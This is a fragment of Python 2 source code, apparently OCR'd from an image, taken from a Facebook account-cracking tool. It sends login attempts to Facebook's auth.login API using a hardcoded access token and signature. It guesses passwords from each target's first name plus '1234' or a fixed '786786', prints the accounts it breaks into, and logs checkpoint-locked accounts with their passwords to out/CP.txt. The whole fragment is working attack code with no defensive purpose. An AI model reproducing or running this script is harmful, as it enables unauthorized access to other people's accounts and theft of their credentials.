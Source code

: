 							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

							q = json.load(data)

							if 'access_token' in q:

								print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;92m | \x1b[1;92m ' + pass3 + ' 👽 ' + b['name']

								oks.append(user+pass3)

							else:

								if 'www.facebook.com' in q["error_msg"]:

									print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass3 + ' 👽 ' + b['name']

									cek = open("out/CP.txt", "a")

									cek.write(user+"|"+pass3+"\n")

									cek.close()

									cekpoint.append(user+pass4)

								else:

									pass4 = b['first_name'] + '1234'

									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

									q = json.load(data)

									if 'access_token' in q:

										print '\x1b[1;92m[OK] \x1b[1;92m ' + user  + ' \x1b[1;92m | \x1b[1;92m ' + pass4 + ' 👽 ' + b['name']

										oks.append(user+pass4)

									else:

										if 'www.facebook.com' in q["error_msg"]:

											print '\x1b[1;36;40m[CP] \x1b[1;97m ' + user  + ' \x1b[1;36;40m|\x1b[1;97m ' + pass4 + ' 👽 ' + b['name']

											cek = open("out/CP.txt", "a")

											cek.write(user+"|"+pass4+"\n")

											cek.close()

											cekpoint.append(user+pass4)

										else:

											pass5 = '786786'
